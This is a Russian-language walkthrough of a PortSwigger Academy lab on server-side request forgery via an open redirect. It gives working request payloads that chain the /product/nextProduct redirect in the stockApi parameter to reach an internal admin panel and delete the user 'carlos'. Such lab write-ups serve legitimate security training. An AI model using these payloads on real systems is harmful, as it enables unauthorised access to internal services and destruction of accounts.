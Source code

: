на админскую панель нет смысла идти, там у нас недостаточно прав, все как в прошлых лабораторных работах
Перейдем на рандомный товар и проверим его наличие, нажав `Get stock`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/5.%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/pics%20for%20walktrough/1.png)
Перейдем в `Proxy` -> `HTTP history` и найдем данный запрос
```
POST /product/stock
...
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/5.%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/pics%20for%20walktrough/2.png)
А вот если в веб-интерфейсе находясь на карточке одного из товаров, перейти на следующий через кнопку действия `Next product` получим следующий http-запрос
```
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/5.%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/pics%20for%20walktrough/3.png)
Протестируем наличие SSRF уязвимости, используя знание о `/product/nextProduct...` и Ip адреса, данном в условии задания `http://192.168.0.12:8080`
```
POST /product/stock
...
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/5.%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/pics%20for%20walktrough/4.png)
далее удалим УЗ `carlos` согласно полученному заданию
```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
и получим уведомление об успешном решении лабораторной работы
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/5.%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/pics%20for%20walktrough/5.png)
